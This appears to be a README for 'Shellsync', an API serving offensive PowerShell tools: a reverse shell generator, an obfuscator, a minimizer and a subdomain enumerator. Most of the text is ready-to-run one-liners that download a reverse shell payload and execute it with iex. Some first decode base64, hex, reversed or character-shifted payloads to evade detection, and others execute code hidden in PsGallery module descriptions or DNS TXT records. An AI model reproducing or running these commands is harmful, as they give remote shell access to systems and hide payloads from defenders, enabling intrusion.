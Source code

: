 Shellsync was put together to give Api access to tooling created by Unit 259 

[Demo'd here in David Bomball Video](https://www.youtube.com/watch?v=JFWnMMte3f0)

Tools: 
1. Reverse Shell Generator 
2. Script Obfuscator 
3. Script Minimizer
4. SubDomain Enumerator

# Reverse Shell Generator

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/revshell`
```

[WebApp Version](https://powershellforhackers.com/tools/revshell/generator) [UNDER CONSTRUCTION - Api is fine]

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```

### Add Encoding Options with `e` Parameter

| Parameter       | Encoding        |
|-----------------|-----------------|
| b               | Base 64         |
| h               | Hex             |
| u               | Url             |
| a               | Ascii           |
| 0               | Binary          |
| r               | Reverse         |
| x               | Aes Encryption  |
| p               | Padding         |
| s               | Shift {$num}    |
| l               | Shellcode       |


## Parameters are passed individually through a switch statement so you can stack these encoding options

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e={ENCODING}' -Method POST | iex
```

### Base64 Execution 

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method Post))) | clip; gcb | iex
```

### Hex Execution 

```powershell
-join([char[]]((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=h' -Method Post) -split '(..)' | ? { $_ } | % { [convert]::ToInt32($_,16) })) | iex
```

### Reverse Execution 

```powershell
$charArray = (irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=r' -Method Post).ToCharArray();[Array]::Reverse($charArray);-join $charArray | iex
```

### PsGallery Execution

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((find-module example).Description)) -replace '[^\x20-\x7E]' | iex
```

### DNS Txt Record

```powershell
resolve-DnsName rev.website.com -Ty TXT | % { $_.Strings -join "" } | iex
```

### Base64 + Shift 2

```powershell
$en=$(irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method post);$sa=2;-join([char[]]$en|%{if($_-cmatch'[A-Za-z0-9]'){$nc=[int]$_-$sa;if($_-cmatch'[A-Z]'){$nc=(($nc-[int][char]'A'+26)%26)+[int][char]'A'}elseif($_-cmatch'[a-z]'){$nc=(($nc-[int][char]'a'+26)%26)+[int][char]'a'}elseif($_-cmatch'[0-9]'){$nc=(($nc-[int][char]'0'+10)%10)+[int][char]'0'};[char]$nc}else{$_}})|%{[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($_))}|clip;gcb|iex
```

</details>

# PS Script Obfuscator

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/obfuscate`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/obfuscate?u=website.com/file&key={$ApiKey}' -Method POST | iex
```
</details>

# PS Script Minimizer

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/mini`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/mini?u=website.com/file' -Method POST
```
</details>

# Enumerate Subdomains
<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/enumsubdomain`
```

[WebApp Version](https://powershellforhackers.com/tools/subdomain/enumerator)

`* Adv Api uses parallel processing and load balancing`

| Method          | Per Minute      |
|-----------------|-----------------|
| WebAppp         | 1.2k min        |
| Api             | 20k  min        |
| Adv Api         | 107k min        |


### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/enumsubdomain?u=website.com&key={$ApiKey}' -Method POST
```
</details>








